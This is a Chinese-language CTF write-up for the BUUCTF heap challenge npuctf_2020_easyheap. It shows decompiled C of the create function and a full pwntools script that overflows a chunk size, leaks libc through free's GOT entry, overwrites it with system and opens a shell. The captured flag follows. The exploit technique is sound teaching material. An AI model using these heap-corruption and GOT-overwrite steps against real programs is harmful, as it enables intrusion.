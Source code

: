 # npuctf_2020_easyheap

[题目地址](https://buuoj.cn/challenges#npuctf_2020_easyheap)

这玩意原题，原题啊！原题我都分不清size到底该覆盖成什么！

出题人偷懒，这题很大一部分完全是[hitcontraining_heapcreator](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/pwn/hitcontraining_heapcreator.md)，把那个看明白了80%的攻击思路就懂了。你问我剩下的20%是什么？我size不知道搞成什么啊！差了20%似乎不多，实际上差了1%都做不出来=(。

唯一不同的地方在create函数处。

```c
void create(void)

{
  long lVar1;
  int iVar2;
  void *pvVar3;
  size_t __size;
  long in_FS_OFFSET;
  int index;
  char local_28 [8];
  long local_20;
  
  local_20 = *(long *)(in_FS_OFFSET + 0x28);
  index = 0;
  do {
    if (9 < index) {
code_r0x00400a9f:
      if (local_20 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
        __stack_chk_fail();
      }
      return;
    }
    if (*(long *)(heaparray + (long)index * 8) == 0) {
      pvVar3 = malloc(0x10);
      *(void **)(heaparray + (long)index * 8) = pvVar3;
      if (*(long *)(heaparray + (long)index * 8) == 0) {
        puts("Allocate Error");
                    /* WARNING: Subroutine does not return */
        exit(1);
      }
      printf("Size of Heap(0x10 or 0x20 only) : ");  //这里骗人的，下面才是真正能申请的大小
      read(0,local_28,8);
      iVar2 = atoi(local_28);
      __size = (size_t)iVar2;
      if ((__size != 0x18) && (__size != 0x38)) {  //只能申请0x18和0x38的大小
                    /* WARNING: Subroutine does not return */
        exit(-1);
      }
      lVar1 = *(long *)(heaparray + (long)index * 8);
      pvVar3 = malloc(__size);
      *(void **)(lVar1 + 8) = pvVar3;
      if (*(long *)(*(long *)(heaparray + (long)index * 8) + 8) == 0) {
        puts("Allocate Error");
                    /* WARNING: Subroutine does not return */
        exit(2);
      }
      **(size_t **)(heaparray + (long)index * 8) = __size;
      printf("Content:");
      read_input(*(undefined8 *)(*(long *)(heaparray + (long)index * 8) + 8),__size);
      puts("Done!");
      goto code_r0x00400a9f;
    }
    index = index + 1;
  } while( true );
}
```

create函数对能申请的堆块大小做了限制。于是乎hitcontraining_heapcreator里面的脚本就不能直接用了，需要根据现在的情况自行调整覆盖的size。大佬的[wp](https://blog.csdn.net/mcmuyanga/article/details/112851757)写得很好，还有截图演示。

```python
from pwn import *

r = remote("node4.buuoj.cn",28175)
context.log_level='debug'

def create(size, content):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(content)


def edit(idx, content):
    r.recvuntil(":")
    r.sendline("2")
    r.recvuntil(":")
    r.sendline(str(idx))
    r.recvuntil(":")
    r.send(content)


def show(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


def delete(idx):
    r.recvuntil(":")
    r.sendline("4")
    r.recvuntil(":")
    r.sendline(str(idx))


free_got = 0x602018
create(0x18, "dada")
create(0x18, "ddaa")
create(0x18,'aaaa')  #必须创建3个堆块，因为下方溢出覆盖size时要与16对齐，只能是\x31或者\x41。\x31不行，都没有即将要申请的0x38大，故只能\x41。\x41的大小又比两个0x18的堆块大，只能再来一个了
#更关键的是3个堆块大小正好，看那位大佬的图就知道了，\x41的大小让堆块完成吞并后正好在第三个堆块的上面。不过有一点我不明白的是，大佬蓝色框圈出的地方上面那一行为什么不算在里面呢？
edit(0, "/bin/sh\x00" + "a" * 16 + "\x41")
delete(1)
create(0x38, b'a'*0x10 + p64(0) + p64(0x21)+p64(0x100)+p64(free_got)) #0x38的大小申请到的是刚刚那个被覆盖为0x41大小的堆块，因为内存需要对齐。那么按照里面的结构，需要0x10个填充+符合原本结构的64(0)+size+程序记录的堆块大小（这里写大了，没关系，只要不写小就好）+要泄露的free_got地址
show(1)
r.recvuntil("Content : ")
free_addr = u64(r.recvuntil(b'\x7f').ljust(8, b"\x00"))
libc_base = free_addr - 620880
log.success('libc base addr: ' + hex(libc_base))
system_addr = libc_base + 324672
edit(1, p64(system_addr))  #把free_got改成system
delete(0) #把/bin/sh装0号堆块里了，装2号里也行
r.interactive()
```

## Flag
> flag{7e6a5fb9-d625-4700-b763-813897b2bae1}